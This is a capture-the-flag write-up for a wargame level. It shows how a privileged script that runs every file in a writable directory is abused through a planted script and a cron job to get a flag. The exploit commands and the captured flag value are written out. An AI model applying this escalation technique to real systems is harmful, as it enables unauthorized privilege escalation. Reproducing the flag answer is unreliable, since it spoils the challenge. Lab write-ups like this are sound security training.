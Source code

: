# level05

We got some intel from level00:
-rwxr-x---+ 1 flag05  flag05      94 Mar  5  2016 openarenaserver

/opt/openarenaserver

/usr/sbin/openarenaserver

/rofs/opt/openarenaserver

/rofs/usr/sbin/openarenaserver

```shell
cat /usr/sbin/openarenaserver
```

shows a bash script that runs all scripts in `/opt/openarenaserver`

```shell
ls -la /usr/sbin/openarenaserver
```

shows that this script belongs to flag05, thus executing it with crontab would maybe esacalte privileges

```shell
echo -e "getflag > /opt/openarenaserver/flag" > /opt/openarenaserver/exploit.sh
```

```shell
crontab -e
```

```shell
* * * * * /opt/openarenaserver/exploit.sh
```

to execute exploit every minute

wait for < 1 minute for crontab to execute

```shell
cat /opt/openarenaserver/flag
```

gives flag:

```shell
viuaaale9huek52boumoomioc
```
